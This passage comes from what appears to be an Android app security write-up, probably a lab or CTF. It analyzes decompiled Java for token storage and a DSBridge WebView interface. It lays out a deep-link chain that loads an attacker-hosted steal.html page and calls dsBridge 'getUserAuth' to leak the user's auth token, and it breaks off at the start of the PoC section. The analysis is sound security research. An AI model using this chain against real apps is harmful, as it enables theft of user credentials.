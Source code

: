 **`TokenManager`** class have some interesting code like:
• Uses `EncryptedSharedPreferences`
```java
public TokenManager(Context context) {
    Intrinsics.checkNotNullParameter(context, "context");
    String orCreate = MasterKeys.getOrCreate(MasterKeys.AES256_GCM_SPEC);
    Intrinsics.checkNotNullExpressionValue(orCreate, "getOrCreate(...)");
    this.prefs = EncryptedSharedPreferences.create("secure_token_prefs", orCreate, context, EncryptedSharedPreferences.PrefKeyEncryptionScheme.AES256_SIV, EncryptedSharedPreferences.PrefValueEncryptionScheme.AES256_GCM);
}
```
• `public static final String KEY_USER_AUTH = "user_auth_data";`
And finally:
```java
public final void saveToken(String tokenJson) {
    Intrinsics.checkNotNullParameter(tokenJson, "tokenJson");
    SharedPreferences.Editor editor = this.prefs.edit();
    Intrinsics.checkNotNullExpressionValue(editor, "editor");
    editor.putString(KEY_USER_AUTH, tokenJson);
    editor.apply();
}
```

**`JwtParser`** class **uses `com.auth0:java-jwt` to extract `name`, `email`, `tier` for UI**.

The attacking scenario flow is the following:
1. `attacker -> victim: Taps mhlcrypto://showPage?url=https://domainattacker.com/steal.html`
2. `victim -> SplashActivity: OS delivers VIEW intent`
3. `SplashActivity -> MainActivity: Passes through`
4. `MainActivity -> DWebViewActivity: putExtra("url_to_load", <attacker URL>)`
5. `DWebViewActivity -> WebView: loadUrl(<attacker URL>) -> addJavascriptObject(new JsApi(...), null)`

And *DSBridge* auto-injects a **global JS object** (`dsBridge` / `_dsbridge`) enabling:
```javascript
dsBridge.call("getUserAuth", {}, function(resp){ ... });
```

The **token leak**
```java
@JavascriptInterface
public final void getUserAuth(Object args, CompletionHandler<Object> handler) {
    Intrinsics.checkNotNullParameter(handler, "handler");
    String token = new TokenManager(this.context).getToken();
    if (token != null) {
        handler.complete(new JSONObject(token));
    } else {
        handler.complete(new JSONObject().put("error", "No token found"));
    }
}
```
*With no origin/caller validation*

### PoC
You’ll need **any HTTPS-enabled hosting** where you can *drop a static file*.  
I’ll use my own domain: `https://lautarovculic.com/steal.html`.
